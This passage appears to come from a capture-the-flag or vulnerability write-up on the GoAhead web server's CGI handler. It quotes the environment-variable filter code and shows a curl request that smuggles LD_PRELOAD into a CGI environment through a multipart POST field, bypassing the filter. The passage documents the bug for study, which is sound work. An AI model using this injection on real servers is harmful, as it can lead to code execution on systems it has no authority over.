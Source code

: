```c
// /src/cgi.c:51
PUBLIC bool cgiHandler(Webs *wp)
{
    // ...
    // ...
    envpsize = 64;
    envp = walloc(envpsize * sizeof(char*));
    if (wp->vars) {
        for (n = 0, s = hashFirst(wp->vars); s != NULL; s = hashNext(wp->vars, s)) {
            if (s->content.valid && s->content.type == string) {
                vp = strim(s->name.value.string, 0, WEBS_TRIM_START);
                if (smatch(vp, "REMOTE_HOST") || smatch(vp, "HTTP_AUTHORIZATION") ||
                    smatch(vp, "IFS") || smatch(vp, "CDPATH") ||
                    smatch(vp, "PATH") || sstarts(vp, "LD_")) {
                    continue;
                }
                // ME_GOAHEAD_CGI_VAR_PREFIX is "CGI_" by default
                if (s->arg != 0 && *ME_GOAHEAD_CGI_VAR_PREFIX != '\0') {
                    envp[n++] = sfmt("%s%s=%s", ME_GOAHEAD_CGI_VAR_PREFIX, s->name.value.string,
                        s->content.value.string);
                } else {
                    envp[n++] = sfmt("%s=%s", s->name.value.string, s->content.value.string);
                }
                trace(0, "Env[%d] %s", n, envp[n-1]);
                if (n >= envpsize) {
                    envpsize *= 2;
                    envp = wrealloc(envp, envpsize * sizeof(char *));
                }
            }
        }
    }
    *(envp+n) = NULL;
    // ...
    // ...
}
```

If the key/value's arg member is not set to 0, it's key will be prefixed by `CGI_`, But if it's 0, It's key will be used with no prefix! So we can just send a POST request with multipart body and set envs without any prefix.

We had a good control over environment variables and We were planning to play with environment variables that python uses. We thought that we can't use LD_PRELOAD because of filters on key. However... LD_PRELOAD was actually working and it was not getting filtered 😳.

```bash
curl 'http://localhost/cgi-bin/date' -F LD_PRELOAD=/tmp/lmao
# error in the terminal which was running goahead
# ERROR: ld.so: object '/tmp/lmao' from LD_PRELOAD cannot be preloaded (cannot open shared object file): ignored.
```

The code looked safe to me while i was reviewing it. The bug is actually funny. The bug? is how filter is using `strim` function. Look with what arguments it is called and how `strim` deals with that args :P.
